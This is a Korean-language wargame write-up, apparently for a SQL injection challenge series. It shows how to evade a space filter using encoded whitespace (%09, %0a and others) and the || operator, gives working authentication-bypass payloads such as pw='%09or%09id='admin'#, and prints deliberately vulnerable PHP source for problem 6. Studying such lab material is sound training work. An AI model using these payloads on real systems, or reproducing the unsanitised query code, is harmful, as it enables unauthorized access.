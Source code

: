 문제를 보면 1번문제와 인젝션 해야 하는 부분이 동일하지만, 이번 문제에서는 pw에 공백 필터링이 걸려있습니다. 이를 우회하여서 인젝션을 수행해 줍니다.

1번 문제에서는 인젝션 구문을 다음과 같이 작성해서 인젝션을 수행했었습니다.

```sql
pw=' or id='admin'#
```

5번 문제는 공백의 필터링이 있기 때문에 약간의 변형이 필요합니다.

우선 필터링을 보면 아스키코드로 0x20인 스페이스 문자만 필터링을 하고 있습니다. sql 인젝션에서는 이를 우회하기 위해서 통상 다음의 문자들을 이용해서 공백의 우회가 가능합니다.

1. Tab : %09
2. Line Feed : %0a
3. Vertical Tab : %0b
4. Form Feed : %0c
5. Carriage Regurn : %0d
6. 괄호 ()

따라서 다음과 같이 바꿔주면 됩니다.

```sql
pw='%09or%09id='admin'#
```

![image](https://user-images.githubusercontent.com/33647663/158067044-57921ceb-8da7-4547-9f33-c1fe15ffa4f9.png)

아니면 or 대신에 띄어쓰기가 필요없는 ```||``` 연산자로 처리해 줘도 됩니다.

```sql
pw='||id='admin'#
```

![image](https://user-images.githubusercontent.com/33647663/158067106-680ffb4c-9907-4e7a-bd6b-e8eadc413390.png)

# 6번   
## 문제
```sql
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
## 풀이
5번 문제 풀이에서도 다뤘지만, ```or``` 문자열 자체를 필터링 하고 있기 때문에 연산자인 || 를 이용하여 필터링을 우회해 줍니다.
